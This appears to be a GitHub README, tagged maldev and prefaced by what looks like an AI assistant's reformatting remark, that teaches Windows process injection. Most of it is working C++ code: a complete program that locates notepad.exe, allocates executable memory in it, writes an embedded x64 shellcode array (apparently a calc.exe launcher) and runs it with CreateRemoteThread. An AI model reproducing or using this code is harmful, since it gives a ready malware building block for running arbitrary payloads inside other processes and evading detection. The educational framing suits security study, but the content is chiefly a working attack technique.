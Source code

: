 Below is a polished version of your README that keeps all of the original text and code exactly as you wrote it. I’ve only improved the Markdown structure, headings, spacing, and formatting so it looks cleaner while preserving the content verbatim.
Part 2: Process Injection Guide

Date: 2025‑10‑27

Tags: maldev, shellcode, injection, security‑research

    Educational Notes: A structured guide to understanding shellcode injection fundamentals

# Simple process injection

### Detailed Process

1.    **Get Process ID – Use tlhelp32.h.**
2.    **Memory Allocation – Use VirtualAllocEx with PAGE_EXECUTE_READWRITE permissions.**
3.    **Write process – Write the shellcode.**
4.    **Remote Thread – Create a new thread.**

Code Examples
Required Headers

```cpp
#include <windows.h>
#include <iostream>
#include <tlhelp32.h>
```

### Basic Implementation of GetProcess

```cpp
DWORD GetProcessId(const std::wstring& processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32W pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32W);
    if (Process32FirstW(hSnapshot, &pe32)) {
        do {
            if (_wcsicmp(pe32.szExeFile, processName.c_str()) == 0) {
                CloseHandle(hSnapshot);
                return pe32.th32ProcessID;
            }
        } while (Process32NextW(hSnapshot, &pe32));
    }
    CloseHandle(hSnapshot);
    return 0;
}
```

### Main File
```cpp
int main() {
    std::wstring targetProcessName = L"notepad.exe";
    DWORD processId = GetProcessId(targetProcessName);
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    LPVOID remoteAddr = VirtualAllocEx(hProcess, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, remoteAddr, buf, sizeof(buf), NULL);
    CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteAddr, NULL, 0, NULL);
    CloseHandle(hProcess);
};
```
### Complete Implementation

#### The following demonstrates a working example that implements all the concepts above:
```cpp
#include <windows.h>
#include <iostream>
#include <tlhelp32.h>

unsigned char buf[] = {
0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E,
0x65, 0x78, 0x65, 0x00
};

DWORD GetProcessId(const std::wstring& processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32W pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32W);
    if (Process32FirstW(hSnapshot, &pe32)) {
        do {
            if (_wcsicmp(pe32.szExeFile, processName.c_str()) == 0) {
                CloseHandle(hSnapshot);
                return pe32.th32ProcessID;
            }
        } while (Process32NextW(hSnapshot, &pe32));
    }
    CloseHandle(hSnapshot);
    return 0;
}

int main() {
    std::wstring targetProcessName = L"notepad.exe";
    DWORD processId = GetProcessId(targetProcessName);
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    LPVOID remoteAddr = VirtualAllocEx(hProcess, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, remoteAddr, buf, sizeof(buf), NULL);
    CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteAddr, NULL, 0, NULL);
    CloseHandle(hProcess);
};
```